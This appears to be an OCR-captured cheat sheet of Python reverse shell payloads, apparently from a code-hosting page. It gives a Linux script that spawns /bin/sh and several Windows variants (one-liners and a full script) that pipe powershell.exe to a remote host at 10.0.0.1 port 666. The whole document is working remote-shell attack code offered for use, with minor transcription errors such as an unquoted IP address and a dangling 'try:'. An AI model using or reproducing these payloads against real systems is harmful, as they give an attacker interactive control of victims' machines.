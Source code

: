 #### Script

```
#!/usr/bin/env python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",666))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

### for Windows

```
exec("""import os, socket, subprocess, threading, sys\ndef s2p(s, p):\n    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()\ndef p2s(s, p):\n    while True: s.send(p.stdout.read(1).encode())\ns=socket.socket(socket.AF_INET, socket.SOCK_STREAM)\nwhile True:\n    try: s.connect(("10.0.0.1",666)); break\n    except: pass\np=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)\nthreading.Thread(target=s2p, args=[s,p], daemon=True).start()\nthreading.Thread(target=p2s, args=[s,p], daemon=True).start()\ntry: p.wait()\nexcept: s.close(); sys.exit(0)""")
```

or

```
python -c 'exec("""import os, socket, subprocess, threading, sys\ndef s2p(s, p):\n    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()\ndef p2s(s, p):\n    while True: s.send(p.stdout.read(1).encode())\ns=socket.socket(socket.AF_INET, socket.SOCK_STREAM)\nwhile True:\n    try: s.connect(("10.0.0.1",666)); break\n    except: pass\np=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)\nthreading.Thread(target=s2p, args=[s,p], daemon=True).start()\nthreading.Thread(target=p2s, args=[s,p], daemon=True).start()\ntry: p.wait()\nexcept: s.close(); sys.exit(0)""")
```

#### Script

```
import os, socket, subprocess, threading, sys

def s2p(s, p):
    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()

def p2s(s, p):
    while True: s.send(p.stdout.read(1).encode())

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
while True:
    try: s.connect((10.0.0.1, 666)); break
    except: pass

p=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)

threading.Thread(target=s2p, args=[s,p], daemon=True).start()

threading.Thread(target=p2s, args=[s,p], daemon=True).start()

try: p.wait()
except: s.close(); sys.exit(0)

try:
```